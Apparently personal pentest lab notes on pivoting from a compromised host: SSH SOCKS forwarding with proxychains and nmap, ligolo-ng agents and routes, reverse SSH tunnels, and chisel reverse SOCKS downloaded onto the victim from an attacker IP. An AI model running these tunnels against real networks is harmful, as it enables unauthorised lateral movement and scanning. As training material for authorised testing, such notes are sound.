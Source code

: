 What to look for on a compromised machine
below you can see that this machine is connected to a different subnet
![[Pasted image 20230310175118.png]]

which means you can connect to this network using the compromised machine

![[Pasted image 20230310175512.png]]
using this command: sudo ssh -N -D 127.0.0.1:9999 sean@10.11.1.251 -fN
you can set a port on your machine to run commands to the compromised machine by directing all traffic to your port by signing into the compromised machine ssh

then you can use proxychains to run commands to the port from the compromised machine thay you have setup, which is 9999.
You can set a port in proxychain conf file that you want to use.
using this command to get to the config: sudo nano /etc/proxychains.conf
![[Pasted image 20230310180032.png]]

use this command to run nmap throuhg proxychains: proxychains nmap --top-ports=20 -sT -Pn 10.1.1.247
you should be able to scan any machine on this network this way


------------------------------------------------------------------------
# Setting up ligolo-ng
```
// Use these 3 commands to setup your ligolo network interface and to run ligolo
# sudo ip tuntap add user cyrano mode tun ligolo
# sudo ip link set ligolo up
# ./proxy -selfcert

// Use this command to add the victim network subnet to your network interface that you are trying to tunnel into.
# sudo ip route add IP/24 dev ligolo

// Use this command to confirm the route was added to your list
# ip route list

// Run agent on victim machine to receive a session on attacker machine
agent.exe -connect 192.168.45.195:11601 -ignore-cert

// Use this command to add a listner
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:80
```


## Tools
[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng "https://github.com/nicocha30/ligolo-ng")
https://www.youtube.com/watch?v=DM1B8S80EvQ

proxychains


-------------------------------------------------------------
## Tunneling with ssh from the victim
ssh port forward from victim machine when ssh is only usable from the inside of victim machine
``` 
attack machine
sudo systemctl ssh
sudo systemctl enable ssh
sudo systemctl start ssh

from victim machine: enter attacker ssh information
ssh attacker@192.168.45.195 -R 8000:localhost:8000

# This option allows you to ssh from victim machine to attack machine, so you can run enumaration scans
ssh -N -R 1080 attacker@IP
```


------------------------------------------------------
## Setting up chisel

```
#attack machine setup, port is the attack machine listening port
./chisel server --port 9000 --socks5 --reverse

#Download chisel on vuln machine and run it
wget http://IP/chisel -o chisel.exe
#This will be the port you are forwarding from vuln machine back to attack machine.
windows machine
.\chisel.exe client IP:PORT R:socks
Linux machine
./chisel client IP:PORT R:socks


#make sure you have /etc/proxychains4.conf setup for w/e socks5 port you plan on using. ie:socks5 127.0.0.1 1080

```